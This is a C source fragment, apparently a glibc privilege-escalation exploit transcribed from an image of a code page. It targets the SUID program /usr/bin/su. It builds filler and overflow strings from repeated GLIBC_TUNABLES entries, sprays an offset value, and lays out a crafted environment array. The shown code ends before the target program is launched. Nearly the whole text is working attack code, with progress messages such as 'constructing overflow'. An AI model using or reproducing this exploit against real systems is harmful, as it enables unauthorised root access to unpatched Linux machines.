 ```c
#define COLOR_MAGENTA "\033[35m"
#define COLOR_CYAN "\033[36m"
#define COLOR_RESET "\033[0m"
#define log(X)                                                                 \
  printf(COLOR_BLUE "[*] %s --> 0x%lx " COLOR_RESET "\n", (#X), (X))
#define success(X) printf(COLOR_GREEN "[+] %s" COLOR_RESET "\n", (X))
#define info(X) printf(COLOR_MAGENTA "[*] %s" COLOR_RESET "\n", (X))
#define errExit(X)                                                             \
  printf(COLOR_RED "[-] %s \033[0m\n", (X));                                   \
  exit(0)

#define SUID_VICTIM "/usr/bin/su"
#define GLIBC_TUNABLES "GLIBC_TUNABLES="
#define TUNABLE "glibc.malloc.mmap_max"
#define TRIGGER GLIBC_TUNABLES TUNABLE "=" TUNABLE "="
#define TRY_HIT "\xc0\xee\xff\xff\xff\x7f"

#define ENVP_SIZE 0x1000
#define FILL_SIZE 0xc00
#define OVERFLOW_SIZE 0x600
#define SPARY_SIZE 0x1000

int main() {

    char *argv[] = { SUID_VICTIM, NULL };
    char *envp[ENVP_SIZE] = { NULL };

    info("constructing placeholder");
    char placeholder[FILL_SIZE] = { 0 };
    strcpy(placeholder, GLIBC_TUNABLES TUNABLE "=");
    for (int i = strlen(placeholder); i < sizeof(placeholder) - 1; i++) {
        strcat(placeholder, "a");
    }

    info("constructing overflow");
    char payload[OVERFLOW_SIZE] = { 0 };
    strcpy(payload, TRIGGER);
    for (int i = strlen(payload); i < sizeof(payload) - 1; i++) {
        strcat(payload, "b");
    }

    info("constructing the second filler (so that it won't raise error in tunables_init)");
    char placeholder2[OVERFLOW_SIZE + 0x20] = { 0 };
    strcpy(placeholder2, GLIBC_TUNABLES TUNABLE "=");
    for (int i = strlen(placeholder2); i < sizeof(placeholder2) - 1; i++) {
        strcat(placeholder2, "c");
    }

    info("sparying offset");
    char evil_offset[SPARY_SIZE] = { 0 };
    for (int i = 0; i < sizeof(evil_offset) - 8; i+=8) {
        *(size_t *)(evil_offset + i) = -0x30;
    }

    info("initializing envp");
    for (int i = 0; i < ENVP_SIZE - 1; i++) {
        envp[i] = ""; // take place with \x00
    }

    envp[0] = placeholder;
    envp[1] = payload;
    envp[0x800] = placeholder2;

```